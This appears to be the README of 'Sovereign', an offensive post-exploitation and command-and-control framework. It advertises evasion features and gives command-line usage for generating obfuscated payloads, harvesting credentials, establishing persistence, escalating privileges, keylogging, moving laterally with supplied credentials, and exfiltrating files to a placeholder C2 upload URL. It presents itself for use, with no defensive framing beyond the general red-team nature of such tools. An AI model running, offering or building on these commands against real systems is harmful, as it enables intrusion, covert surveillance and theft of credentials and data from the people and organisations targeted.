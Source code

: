 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Interact with a specific agent:
```bash
python cli/cli.py select-agent AGENT_ID
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate-payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list-agents
    ```

2.    #### Interact with a specific agent:
```bash
python cli/cli.py select-agent AGENT_ID
```

3.    #### Interact with a selected agent:
```bash
Get-ComputerInfo
```

4. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send-command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

5. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate-payload --platform windows
    ```

6. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest-credentials
    ```

7. **Establishing persistence**:
    ```bash
    python cli/cli.py establish-persistence
    ```

8. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate-privileges
    ```

9. **Gathering system information**:
    ```bash
    python cli/cli.py gather-system-info
    ```

10. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

11. **Starting a keylogger**:
    ```bash
    python cli/cli.py start-keylogger --log_file_path /path/to/log_file
    ```

12. **Moving laterally**:
    ```bash
    python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate-report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.

# By the way, we pwn things.....
